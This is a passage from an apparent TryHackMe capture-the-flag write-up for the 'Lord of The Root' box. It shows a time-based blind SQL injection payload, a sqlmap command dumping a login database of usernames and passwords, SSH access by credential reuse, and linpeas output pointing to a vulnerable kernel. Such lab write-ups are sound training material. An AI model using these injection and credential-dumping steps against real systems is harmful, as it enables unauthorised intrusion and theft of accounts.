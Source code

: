 ```bash
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=RybM&password=' AND (SELECT 6856 FROM (SELECT(SLEEP(5)))hziG)-- dvCJ&submit= Login
---
```


Once the inital sqlmap scan completes, we know the following database names:

```bash
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
```

Since we have the names, we can try to dump everything out of the `Webapp` table to get login credentials:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lord of The Root$ sqlmap -u http://$IP:1337/978345210/index.php --forms --risk=3 --level=5 --dbms=mysql -D Webapp --dump
                                                                              .
                                                                              .
                                                                              .
                                                                              .
                                                                              .
                                                                              .
                                                                              .
Database: Webapp
Table: Users
[5 entries]
+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |
+------+----------+------------------+
```

Using the credentials to log in to the web app gives us nothing other than a another photo and nothing useful in the page source. We found SSH open earlier, so maybe these creds can be used for SSH too. As it turns out, `smeagol`'s credentials allow us to get into the box. Once on the box running linpeas finds a vulnerable Ubuntu 14 version:

```bash
====================================( Basic information )=====================================
OS: Linux version 3.19.0-25-generic (buildd@lgw01-57) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015
User & Groups: uid=1000(smeagol) gid=1000(smeagol) groups=1000(smeagol)
Hostname: LordOfTheRoot
Writable folder: /home/smeagol
```
